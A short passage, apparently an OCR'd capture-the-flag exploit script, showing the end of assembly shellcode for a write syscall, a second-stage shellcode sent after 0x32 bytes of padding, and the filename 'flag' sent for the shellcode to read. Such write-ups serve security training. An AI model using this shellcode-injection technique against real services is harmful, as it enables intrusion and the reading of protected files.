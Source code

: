 ```
mov rsi, rsp
mov rdx, 0x100
mov rax, 1
syscall
""")

# We have to send 0x32 characters before our shellcode, since after the previous syscall from sc0 is done, it will continue execution 0x32 bytes after the start of our input
target.send("0"*0x32 + sc1)

# Send "flag" for the filename to read
target.send("flag\x00")

target.interactive()
```
